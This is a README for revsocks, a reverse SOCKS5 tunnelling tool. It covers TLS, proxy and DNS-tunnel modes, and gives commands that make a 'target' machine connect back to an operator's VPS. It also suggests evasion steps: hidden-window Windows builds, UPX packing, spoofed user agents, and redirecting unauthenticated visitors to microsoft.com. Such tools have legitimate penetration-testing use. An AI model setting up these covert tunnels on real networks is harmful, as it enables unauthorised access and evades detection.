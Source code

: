 [![Build Status](https://travis-ci.org/kost/revsocks.png)](https://travis-ci.org/kost/revsocks)
[![CircleCI](https://circleci.com/gh/kost/revsocks.svg?style=svg)](https://circleci.com/gh/kost/revsocks)
[![Codacy Badge](https://api.codacy.com/project/badge/Grade/3c687bcd445e4a828c914e4e2384196e)](https://www.codacy.com/manual/kost/revsocks?utm_source=github.com&utm_medium=referral&utm_content=kost/revsocks&utm_campaign=Badge_Grade)

# revsocks

Reverse socks5 tunneler with SSL/TLS and proxy support (without proxy authentication and with basic/NTLM proxy authentication)
Based on <https://github.com/brimstone/rsocks> and <https://github.com/llkat/rsockstun>

# Features

-   Single executable (thanks to Go!)
-   Linux/Windows/Mac/BSD support
-   Encrypted communication with TLS
-   Support for proxies (without authentication or with basic/NTLM proxy authentication)
-   Automatic SSL/TLS certificate generation if not specified

# Architecture

-   server = locally listening socks server
-   client = client which connects back to server

## Usage

### reverse TCP

    Usage:
    1) Start on VPS: revsocks -listen :8443 -socks 127.0.0.1:1080 -pass SuperSecretPassword
    2) Start on client: revsocks -connect clientIP:8443 -pass SuperSecretPassword
    3) Connect to 127.0.0.1:1080 on the VPS with any socks5 client.
    4) Enjoy. :]

### DNS tunel

```sh
0) setup your domain records
1) Start on the DNS server: revsocks -dns example.com -dnslisten :53 -socks 127.0.0.1:1080 -pass 52fdfc072182654f163f5f0f9a621d729566c74d10037c4d7bbb0407d1e2c64
2) Start on the target: revsocks -dns example.com -pass 52fdfc072182654f163f5f0f9a621d729566c74d10037c4d7bbb0407d1e2c64
3) Connect to 127.0.0.1:1080 on the DNS server with any socks5 client.
```

## Useful parameters

    Add params:
     -proxy 1.2.3.4:3128 - connect via proxy
     -proxyauth Domain/username:password  - proxy creds
     -proxytimeout 2000 - server and clients will wait for 2000 msec for proxy connections... (Sometime it should be up to 4000...)
     -useragent "Internet Explorer 9.99" - User-Agent used in proxy connection (sometimes it is usefull)
     -pass Password12345 - challenge password between client and server (if not match - server reply 301 redirect)
     -recn - reconnect times number. Default is 3. If 0 - infinite reconnection
     -rect - time delay in secs between reconnection attempts. Default is 30

## Usage

  -cert string
	certificate file
  -connect string
	connect address:port
  -debug
	display debug info
  -dns string
	DNS domain to use for DNS tunneling
  -dnsdelay string
	Delay/sleep time between requests (200ms by default)
  -dnslisten string
	Where should DNS server listen
  -listen string
	listen port for receiver address:port
  -pass string
	Connect password
  -proxy string
	proxy address:port
  -proxyauth string
	proxy auth Domain/user:Password
  -proxytimeout string
	proxy response timeout (ms)
  -q	Be quiet
  -recn int
	reconnection limit (default 3)
  -rect int
	reconnection delay (default 30)
  -socks string
	socks address:port (default "127.0.0.1:1080")
  -useragent string
	User-Agent
  -version
	version information

# Requirements

-   Go 1.4 or higher
-   Few external Go modules (yamux, go-socks5 and go-ntlmssp)

# Compile and Installation

Linux VPS

-   install Golang: apt install golang

```sh
export GOPATH=~/go
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
go build
```

launch:

```sh
./revsocks -listen :8443 -socks 127.0.0.1:1080 -pass Password1234
```

Windows client:

-   download and install golang

```sh
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
go build
```

## Windows optional

optional: to build as Windows GUI:

```sh
go build -ldflags -H=windowsgui
```

You can also compress exe - just use any exe packer, ex: UPX

```sh
upx revsocks
```

## Usage examples

```sh
revsocks -connect clientIP:8443 -pass Password1234
```

or with proxy and user agent:

```sh
revsocks -connect clientIP:8443 -pass Password1234 -proxy proxy.domain.local:3128 -proxyauth Domain/userpame:userpass -useragent "Mozilla 5.0/IE Windows 10"
```

Client connects to server and send agentpassword to authorize on server. If server does not receive agentpassword or reveive wrong pass from client (for example if spider or client browser connects to server ) then it send HTTP 301 redirect code to www.microsoft.com

## Custom certificate

Generate self-signed certificate with openssl:

```sh
openssl req -new -x509 -keyout server.key -out server.crt -days 365 -nodes
```

## Debug

For debugging (especially DNS part):
```sh
go build -tags debug
```
